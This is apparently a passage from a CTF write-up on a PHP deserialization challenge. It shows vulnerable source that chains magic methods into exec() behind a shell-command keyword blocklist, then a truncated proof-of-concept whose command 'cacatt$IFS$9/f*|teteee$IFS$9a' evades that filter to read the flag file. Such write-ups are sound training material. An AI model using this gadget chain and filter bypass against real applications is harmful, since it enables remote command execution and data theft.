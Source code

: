 ```php
    }
}

class ZYPC{
    public $cmd;
    public function __invoke(){
        echo 'in ZYPC invoke';
        if($this->cmd){
            $this->cmd = preg_replace("/ls|cat|tac|more|sort|head|tail|nl|less|flag|cd|tee|bash|sh|&|^|>|<|\.| |'|`|\(|\"/i","",$this->cmd);
        }
        exec($this->cmd);
    }
}

class ZY{
    public $obj;
    public $flag = "Welcome";
    public $auth = "who are you?";

    public function Welcome(){
        if(unserialize($this->auth)=="waterbucket"){
            $star = implode(array($this->obj,"⭐","⭐","⭐","⭐","⭐"));
            echo $star;
        }
        else
            echo 'Welcome';
    }

    public function __get($get)
    {
        $func = $this->flag;
        return $func();
    }
}

new unser(new ZY(),"user");

$data = $_POST['data'];
if(!preg_match('/flag/i',$data))
    unserialize($data);
else
    echo "不会这都不会吧";
Welcomein ZYPC invoke
```

POC:

```php
<?php
class GGbond{
    public $candy;
}
class unser{
    public $obj;
    public $auth;
}
class ZYPC{
    public $cmd='cacatt$IFS$9/f*|teteee$IFS$9a';
}
class ZY{
    public $obj;
    public $flag;
    public $auth = 's:11:"waterbucket";';
```